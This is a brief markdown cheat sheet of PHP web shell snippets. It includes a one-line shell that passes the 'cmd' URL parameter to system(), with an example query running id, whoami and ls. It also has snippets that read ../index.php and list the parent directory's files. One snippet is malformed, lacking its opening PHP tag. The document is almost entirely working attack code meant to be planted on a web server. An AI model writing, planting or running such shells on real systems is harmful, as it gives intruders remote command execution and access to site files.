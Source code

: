# php web shell scripts

## basic
{url}/file.php?cmd=id;whoami;ls
```php
<?php
    echo system($_GET["cmd"]);
?>   
```

## cat file
```php
echo file_get_contents('../index.php')
?>```


## ls dir
```php
<?php
function listFilesInParentDir($dir) {
    $directoryIterator = new DirectoryIterator($dir);
    foreach ($directoryIterator as $file) {
        // if ($file->isFile()) {
            echo $file->getFilename() . PHP_EOL;
        // }
    }
}
$parentDir = realpath(__DIR__ . '/../');
listFilesInParentDir($parentDir);
?>
```

